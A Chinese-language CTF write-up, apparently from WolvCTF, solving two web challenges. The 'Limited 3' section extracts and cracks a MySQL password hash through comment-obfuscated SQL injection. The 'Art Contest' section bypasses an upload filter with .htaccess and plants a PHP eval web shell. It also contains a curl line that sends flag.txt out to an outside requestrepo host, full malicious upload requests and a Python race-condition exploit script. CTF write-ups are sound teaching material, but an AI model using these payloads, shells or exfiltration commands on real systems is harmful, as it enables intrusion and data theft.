

```sql
SELECT/**/query/**/FROM/**/information_schema.processlist/**/WHERE/**/id=connection_id()

SELECT/**/group_concat(info)/**/FROM/**/information_schema.processlist
```

## Limited 3 

查用户的密码，我们先查用户在哪里

```sql
select/**/user()
ctf@192.168.144.3

SELECT/**/host,user/**/FROM/**/mysql.user
```

发现报错了，那改改查询语句就好了

```sql
SELECT/**/group_concat(user)/**/FROM/**/mysql.user
ctf,flag,root,mysql.infoschema,mysql.session,mysql.sys,root

SELECT/**/group_concat(column_name)/**/FROM/**/information_schema.columns/**/WHERE/**/table_name='user'
account_locked,Alter_priv,Alter_routine_priv,authentication_string,Create_priv,Create_role_priv,Create_routine_priv,Create_tablespace_priv,Create_tmp_table_priv,Create_user_priv,Create_view_priv,Delete_priv,Drop_priv,Drop_role_priv,Event_priv,Execute_priv,File_priv,Grant_priv,Host,Index_priv,Insert_priv,Lock_tables_priv,max_connections,max_questions,max_updates,max_user_connections,password_expired,password_last_changed,password_lifetime,Password_require_current,Password_reuse_history,Password_reuse_time,plugin,Process_priv,References_priv,Reload_priv,Repl_client_priv,Repl_slave_priv,Select_priv,Show_db_priv,Show_view_priv,Shutdown_priv,ssl_cipher,ssl_type,Super_priv,Trigger_priv,Update_priv,User,User_attributes,x509_issuer,x509_subject

SELECT/**/group_concat(authentication_string)/**/FROM/**/mysql.user/**/WHERE/**/user='flag'
$A$005$\u001d\u0013r>f+v\u001e VZ\u001f\tVwC6N,k213w7bWDoFKwCtkuMdE5KzXBPhiqWCcZaIVO/UqYWk3
```

貌似没用，后面问了一下大家怎么看这个题目，原来是说要爆破，rockyou是一个字典，网上一搜就有，那试试用hashcat来爆破，但是会报错，书鱼哥哥说我格式不对[Hashcat的Issue](https://github.com/hashcat/hashcat/issues/3049)，重新写一下注入语句

```sql
select/**/CONCAT('$mysql',substring(authentication_string,1,3),LPAD(conv(substring(authentication_string,4,3),16,10),4,0),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*'))/**/AS/**/hash/**/FROM/**/mysql.user/**/WHERE/**/user='flag'/**/AND/**/authentication_string/**/NOT/**/LIKE/**/'%INVALIDSALTANDPASSWORD%'

$mysql$A$0005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044

SELECT/**/concat(user,authentication_string)/**/FROM/**/mysql.user/**/WHERE/**/user='flag'
flag$A$005$vnO^]\u0003\u0010jL\u0002r3Gd3S\\K^ 8erddrLn9trvBOHKkct.70yfGLXt/DfcNXvsqY/p2PD
```

然后交给书鱼哥哥口算，其实是`hashcat -m 7401 -a 0 --username hash.txt rocket13.txt`，其中hash.txt为`flag:$mysql$A$0005*766E4F5E5D03106A4C027233476433535C4B5E20*3865726464724C6E39747276424F484B6B63742E37307966474C58742F4466634E58767371592F70325044`

```
wctf{maricrissarah}
```

## Art Contest

给每个用户都生成一个有权限的目录

```php
<?php
session_start();

$session_id = session_id();
$target_dir = "/var/www/html/uploads/$session_id/";

// Creating the session-specific upload directory if it doesn't exist
if (!is_dir($target_dir)) {
    mkdir($target_dir, 0755, true);
    chown($target_dir, 'www-data');
    chgrp($target_dir, 'www-data');
}
?>
```



这里是根据最后的一个点来判断后缀的，并且要求文件为txt文件，直接一个后缀问题就绕过了上传了但是



这样子会把权限降低为0，单看代码我没看出什么，所以来进到docker里面来慢慢考量

```
docker exec -it 8a420fb7554e /bin/bash
```

虽然我可以直接拿到`get_flag`这个文件，但是其中并不含有flag，他仅仅是一个二进制文件



还是要getshell，上传了一个文件上去，发现确实想代码一般



没有足够的权限，仔细想了想，文件上传getshell应该是不太可能了，但是他这里有个危险函数，想办法看看这里能不能命令执行

```php
shell_exec('chmod -- 000 *');
```

如果我的文件名里面有恶意代码的话，是否可以执行呢

```
curl -d @/var/www/html/flag.txt aojveb29.requestrepo.com
```

---

再回首，我现在已经给自己做的非常迷糊，甚至觉得就算上传了也没用，于是我把权限验证那一句给注释了，再通过`.htaccess`来进行辅助，最终发现可以getshell

```
#define width 1337
#define height 1337
php_value auto_prepend_file "./shell.php.txt"
AddType application/x-httpd-php .txt
```




那么现在唯一的问题，就是怎么弄掉那个权限验证了，在经历了折磨之后，我没有想到，但是花哥想到并且测试出来可以`chmod *`无法识别到隐藏文件，所以

```http
POST / HTTP/2
Host: art-contest-974780027560.us-east5.run.app
Cookie: PHPSESSID=d7e39c8579f2ed415c9ad75b7d2ca0b1; GAESA=CpwBMDBmZDdkNzMzNzU2YzUyMWQwZWNmYzY4MGVkYmU3NGNjNjYxMTQwMDMxZWU1YmNkMDIzNzJkOGExYzEzMzQ4MGY4MzlmYWY4YWQ3MzczMTJhYTIyMjkxNTRhMWNiYjhjZDI2NmM3YmEzNGJlOTY4ZGIwOGY3OWEzMWZiNDUxNzc3ZTg5NzlkNzEyNzMzMDk2NDY5YWFjODI4MzkyEM38zorcMg
Content-Length: 413
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://art-contest-974780027560.us-east5.run.app
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg3bi0UR3XlDAEZV6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://art-contest-974780027560.us-east5.run.app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess"
Content-Type: text/plain

#define width 1337
#define height 1337
php_value auto_prepend_file ".shell.txt"
AddType application/x-httpd-php .txt
------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="submit"

Submit Art
------WebKitFormBoundaryg3bi0UR3XlDAEZV6--

```

```http
POST / HTTP/2
Host: art-contest-974780027560.us-east5.run.app
Cookie: PHPSESSID=d7e39c8579f2ed415c9ad75b7d2ca0b1; GAESA=CpwBMDBmZDdkNzMzNzU2YzUyMWQwZWNmYzY4MGVkYmU3NGNjNjYxMTQwMDMxZWU1YmNkMDIzNzJkOGExYzEzMzQ4MGY4MzlmYWY4YWQ3MzczMTJhYTIyMjkxNTRhMWNiYjhjZDI2NmM3YmEzNGJlOTY4ZGIwOGY3OWEzMWZiNDUxNzc3ZTg5NzlkNzEyNzMzMDk2NDY5YWFjODI4MzkyEM38zorcMg
Content-Length: 319
Cache-Control: max-age=0
Sec-Ch-Ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://art-contest-974780027560.us-east5.run.app
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryg3bi0UR3XlDAEZV6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://art-contest-974780027560.us-east5.run.app/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i

------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="fileToUpload"; filename=".shell.txt"
Content-Type: text/plain

<?php eval($_POST[1]);?>
------WebKitFormBoundaryg3bi0UR3XlDAEZV6
Content-Disposition: form-data; name="submit"

Submit Art
------WebKitFormBoundaryg3bi0UR3XlDAEZV6--

```



进antsword的虚拟终端就可以拿到flag了

最后m4x哥哥还发现其实可以打条件竞争，ps:我没注意到不能覆盖文件，所以下午的时候没有成功

```python
import hashlib
import random
import threading

import requests

url = "http://156.238.233.93:40000/"
sess = requests.session()
htacc = '''<FilesMatch "\.txt$">
    SetHandler application/x-httpd-php
</FilesMatch>'''
shell = '''
<?php system('ls -l ../../'); ?>
'''

sessionId = hashlib.md5(str(random.randint(100000, 999999)).encode('utf-8')).hexdigest()
filename = "a"
def upload_htaccess():
    global sessionId
    sess.post(url, files={"fileToUpload": (".htaccess", htacc)}, cookies={"PHPSESSID": sessionId})

def upload_shell():
    global sessionId
    global filename
    while True:
        sess.post(url, files={"fileToUpload": (f"{filename}.txt", shell)}, cookies={"PHPSESSID": sessionId})

def get_shell():
    global sessionId
    global filename
    while True:
        filename = hashlib.md5(str(random.randint(100000, 999999)).encode('utf-8')).hexdigest()
        res = sess.get(url + f"uploads/{sessionId}/{filename}.txt" , cookies={"PHPSESSID": sessionId})
        if res.status_code < 400:
            print(res.text)

upload_htaccess()
threading.Thread(target=upload_shell).start()
get_shell()
```



```
<?php system('cd ../../;./get_flag'); ?>
```
